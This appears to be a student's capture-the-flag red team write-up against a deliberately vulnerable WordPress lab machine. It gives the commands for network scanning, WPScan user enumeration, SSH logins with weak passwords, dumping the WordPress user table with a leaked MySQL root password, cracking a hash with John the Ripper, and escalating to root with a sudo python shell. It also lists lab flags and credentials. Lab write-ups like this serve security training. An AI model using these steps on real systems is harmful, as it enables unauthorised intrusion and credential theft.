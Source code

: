 ﻿Joaquin Serrano

# Red Team: Summary of Operations

### Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
Find the version of the service running on port 192.168.1.110:
$ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

This scan identifies the services below as potential points of entry:

- Target 1 -Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:

- Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)

### Exploitation
   * dirb returns the enumerated directories found within the target URL
![](https://github.com/y2keno/final_project/blob/2b18992a598038337b3eea06eb8e762ca11ae9a6/Final_Red_Team/images/image1.png)
![](https://github.com/y2keno/final_project/blob/9daf1cc299e38973b8392e18e94f21011da9d766/Final_Red_Team/images/image10.png)

  

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


* Target 1
   * flag1.txt: b9bbcb33e11b80be759c4e844


      * Exploit Used
         * WPScan to enumerate users of the Target 1 WordPress site
         * SSH using Michael’s credentials, Flag 1 was found
         * Flag 1 was found in /var/www in the HTML folder


Kali Linux Command: 
* $ wpscan -u http://192.168.1.110/wordpress -eu
  

  

  



   * flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


   * Exploit used:
         * Continuation of exploit from Target 1. 
         * SSH using Michael’s credentials, Flag 2 was found. 
         * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 
Kali Linux Commands: 
      * $ ssh michael@192.168.1.110
      * pwd
      * cd var/www
      * ls -l
      * cat flag2.txt
  

  

* Flag 3: afc01ab56b50591e7dccf93122770cd2


* Exploit used: 
   * Continuation of Exploit from Target 1. 
* Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
  





Kali Linux Command: $ mysql -u root -p
* Password: R@v3nSecurity  Host: 127.0.0.1
* Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
* show databases;
* use wordpress; 
* show tables;
* Select * from wp_users; 




  



  



  

  

  

* Flag 4: 715dea6c055b9fe3337544932f2941ce
* Exploit used:
   * Unsalted password hash and privilege escalation with Python
* Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   * Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   * Copied the username and password hash for Steven. Saved the file and named it  hash.txt


* Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;
  

  

* Utilized John the Ripper to crack the password hash from the hash.txt file.
* Kali Linux command: 
   * $ john hash
  

* Steven Password cracked: pink84
  

* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
  

* Use python to gain root privileges
  

* cd root
* ls
* cat flag4.txt
* Captured Flag4